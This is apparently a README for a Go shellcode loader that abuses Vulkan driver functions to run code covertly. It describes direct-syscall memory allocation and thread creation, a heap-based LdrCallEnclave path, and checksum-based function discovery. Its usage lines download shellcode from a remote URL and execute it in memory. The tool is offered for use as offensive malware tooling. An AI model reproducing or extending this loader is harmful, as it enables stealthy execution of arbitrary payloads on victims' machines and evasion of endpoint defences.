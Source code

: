 # vulkan loader

a go implementation that uses vulkan api functions as execution primitives for shellcode loading and execution.

## technical overview

the loader consists of three main components:

### finder package
- scans vulkan-1.dll exports to identify compatible functions
- analyzes function bytecode for specific checksum patterns (0x10aded040410aded and 0x10aded020210aded)
- supports two checksum variants:
  - checksumAt0: validates against table[0]
  - checksumAt2: validates against arg1[2] with conditional logic
- identifies table access patterns and function indices through disassembly
- handles jump table resolution for indirect calls

### vulkan package  
- implements two execution methods (vulkan1 and vulkan2)
- creates egstr structure containing function table and extended memory
- vulkan1: uses direct syscalls (ntAllocateVirtualMemory, ntWriteVirtualMemory, ntProtectVirtualMemory, ntCreateThreadEx)
- vulkan2: uses heap allocation via getProcessExecutableHeap and ldrCallEnclave

### net package
- handles remote shellcode retrieval
- downloads payload directly into memory

## execution flow

1. loader identifies compatible vulkan function through pattern matching
2. creates execution context with appropriate checksum variant
3. sets up function table with syscall callbacks
4. downloads shellcode from remote url
5. executes through vulkan driver function calls

## structure details

the egstr structure contains:
- v1: pointer to function table
- v2: pointer to extended memory (for conditional variants)
- v3: checksum value for validation
- v4: function call parameter
- table: 256-entry function pointer array
- extmem: 8kb extended memory region

## usage

```go
vulkan.Vulkan1("http://example.com/payload.bin")  // syscall method
vulkan.Vulkan2("http://example.com/payload.bin")  // heap allocation method
```

the loader automatically selects appropriate vulkan functions and configures execution context based on detected patterns.
